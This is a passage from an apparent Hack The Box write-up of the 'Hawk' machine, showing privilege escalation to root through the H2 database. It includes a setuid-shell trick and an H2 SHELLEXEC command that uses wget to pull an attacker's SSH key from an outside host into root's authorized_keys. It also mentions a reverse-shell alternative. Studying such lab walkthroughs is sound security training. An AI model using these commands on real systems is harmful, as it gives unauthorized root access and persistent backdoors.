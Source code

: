 Started a web server:

```

root@kali# python3 -m http.server 81

```

Then, issued the following commands into the console:

![1543530450157](https://0xdfimages.gitlab.io/img/1543530450157.png)

On doing that, `.a` showed up in tmp, owned by root, with the setuid bit:

```

daniel@hawk:/tmp$ ls -la .a
-rwsrwxr-x 1 root root 16664 Nov 29  2018 .a

```

Running that gives me a root shell:

```

daniel@hawk:/tmp$ ./.a
# id
uid=0(root) gid=1005(daniel) groups=1005(daniel)

```
*July 2023 note: Much like in [Smasher](/2018/11/24/htb-smasher.html#exploiting-checker), Hawk must have gotten some maintenance that updated the OS to include protections for `/tmp`. The above strategy no longer works from `/tmp`, but moving to `/home/daniel` works just fine.*

Another alternative was to create an ssh key pair, and then use:

```

CALL SHELLEXEC('wget -O /root/.ssh/authorized_keys http://10.10.14.3:81/id_rsa.pub');

```

From there, I could ssh in as root.

A third idea that worked was putting one of the reverse shells in a file as a bash script, and having root run it.

## Beyond Root - Other Listening Ports

In my initial nmap scan, I noticed two more ports open that I haven’t accounted for yet: 5435 and 9092. It turns out, they are both H2 related. When you start H2, it will report something like:

```

Web Console server running at http://127.0.1.1:8082 (only local connections)
TCP server running at tcp://127.0.1.1:9092 (only local connections)
PG server running at pg://127.0.1.1:5435 (only local connections)

```
